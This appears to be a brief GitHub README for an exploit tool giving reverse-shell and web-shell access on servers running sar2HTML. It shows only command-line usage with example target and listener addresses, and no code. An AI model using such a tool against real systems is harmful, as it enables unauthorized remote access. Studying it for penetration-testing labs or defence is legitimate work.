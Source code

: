 # sar2THML
Reverse Shell for sar2HTML (Basic web and reverse)

# Usage: ./sar2HTML -ip HOST IP -rip IP:PORT -pe folder
# Exmaples: #Usage: ./sar2HTML -ip 192.168.1.81 -rip 192.168.1.22:9999 -pe sar2HTML (Reverse Shell)
# Exmaples: #Usage: ./sar2HTML -ip 192.168.1.81 -pe sar2HTML (Baisc Web Shell)
